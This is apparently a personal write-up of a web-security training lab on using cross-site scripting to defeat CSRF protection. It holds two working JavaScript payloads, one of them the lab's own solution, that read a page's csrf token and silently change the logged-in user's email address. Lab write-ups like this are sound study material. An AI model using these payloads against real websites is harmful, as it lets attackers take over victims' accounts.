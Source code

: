 First, we have to see which functionality is triggereable by the user and we can exploit.
The page allows us to reset the password without having to reenter the password.
If we find a XSS vector, we can create a CSRF and make the user change the password to a password we all know.

In this case, we have to change the e-mail of the user.

This is the request to perform a e-mail change:
![](imgs/xss_csrf.png)

We can create a XSS that takes the `csrf` token, as well as the `cookie` header, and then add the email we want.

This is the PoC I like:

```javascript
<script>
window.onload = function(e) {
    var csrf = document.getElementsByName("csrf")[0].value;
    console.log(csrf);
    fetch('https://ac8e1fe31e1017ee80982bb700310061.web-security-academy.net/email/change', {
        method: 'POST',
        body: 'csrf=' + csrf + '&email=john@wick.com'
    });
};
</script>
```

This script basically executes a function when the window is loaded and extracts the `csrf` token from the document's body. Then, it makes a request to the BurpSuite's page like the one that we saw before, changing the email.

We append the XSS to the page:
![](imgs/xss_csrf-1.png)

But this does not work (I don't know why), so I honesly took the solution from the laboratory:

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get', '/my-account', true);
req.send();

function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf=' + token + '&email=test@test.com')
}; 

</script>
```

This indeed, solves the lab:
![](imgs/xss_csrf-2.png)